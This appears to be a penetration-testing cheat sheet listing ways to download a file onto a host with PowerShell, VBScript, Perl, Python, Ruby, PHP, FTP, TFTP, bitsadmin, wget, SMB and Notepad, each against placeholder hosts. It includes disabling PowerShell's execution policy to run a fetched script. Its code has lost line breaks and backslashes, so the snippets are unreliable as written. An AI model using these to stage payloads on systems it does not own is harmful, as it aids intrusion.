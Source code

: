 ## Powershell

```
$p = New-Object System.Net.WebClient $p.DownloadFile("http://domain/file" "C:%homepath%file") 
```

```
powershell set-executionpolicy unrestricted
PS C:> .test.ps1
```

## Visual Basic

```
Set args = Wscript.Arguments Url = "http://domain/file" dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP") dim bStrm: Set bStrm = createobject("Adodb.Stream") xHttp.Open "GET", Url, False xHttp.Send with bStrm     .type = 1 '     .open     .write xHttp.responseBody     .savetofile " C:%homepath%file", 2 ' end with
```

```
cscript test.vbs
```

## Perl

```
#!/usr/bin/perl use LWP::Simple; getstore("http://domain/file", "file");
```

## Python

```
#!/usr/bin/python import urllib2 u = urllib2.urlopen('http://domain/file') localFile = open('local_file', 'w') localFile.write(u.read()) localFile.close()
```

## Ruby

```
#!/usr/bin/ruby require 'net/http' Net::HTTP.start("www.domain.com") { |http| r = http.get("/file") open("save_location", "wb") { |file| file.write(r.body) } }
```

## PHP 

```
#!/usr/bin/php <?php         $data = @file("http://example.com/file");         $lf = "local_file";         $fh = fopen($lf, 'w');         fwrite($fh, $data[0]);         fclose($fh); ?>
```

## FTP

```
ftp 127.0.0.1 username password get file exit
```

## TFTP

```
tftp -i host GET C:%homepath%file location_of_file_on_tftp_server
```

## Bitsadmin

```
bitsadmin /transfer n http://domain/file c:%homepath%file
```

## Wget

```
wget http://example.com/file
```

## SMB

```
net use x: \127.0.0.1share /user:example.comuserID myPassword
```

## Notepad 

- Open notepad
- Go to file – open
- In the File Name box near the bottom, type in the full URL path to your file


